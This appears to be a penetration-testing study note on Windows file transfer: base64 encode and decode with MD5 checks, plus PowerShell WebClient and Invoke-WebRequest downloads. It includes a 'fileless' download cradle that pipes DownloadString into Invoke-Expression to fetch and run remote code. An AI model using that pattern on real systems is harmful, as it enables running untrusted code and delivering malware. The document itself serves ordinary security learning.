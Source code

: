 ## Windows File Transfer Methods

### Download Operations

#### PowerShell Base64 Encode & Decode

depending on the file size a file can be transmitted through a base64 encoded string to be decoded in the target machine, the contents can then be verified using a md5 hash of the file

##### on Linux:

> encoding file:
	cat [file] | base64 -w 0


>verifying file integrity:
	md5sum [b64encoded.file]

> writing to file from base64 string:
	echo -n '[base64-string]' | base64 -d -w 0 > [file]

##### on Windows:

> encoding file:
	 [Convert]::ToBase64String((Get-Content -Path [path-to-file] -Encoding byte))

> verifying file integrity:
	Get-FileHash -Path [path-to-file] -Algortihm MD5

> writing to file from base64 string:
	[IO.File]::WriteAllBytes("[path-to-file]", [Convert]::FromBase64String("[base64-string]"))

<br>

#### PowerShell Web Downloads

the SYstem.Net.WebClient class can be used to download resources over HTTP, HTTPS or FTP [the listed methods also have an Async option]:

- OpenRead: returns data as a stream
- DownloadData: returns data as a byte array
- DownloadFile: download file
- DownloadString: returns a string 

##### DownloadFile

	(New-Object System.Net.WebClient).DownloadFile('[file-url]','[output-file]')

##### DownloadString (Fileless Method)

	Invoke-Expression (New-Object System.Net.WebClient).DownloadString('[file-url]')

	(New-Object System.Net.WebClient).DownloadString('[file-url]') | Invoke-Expression

##### Invoke-WebRequest
	Invoke-WebRequest [file-url] -OutFile [outfile-name]
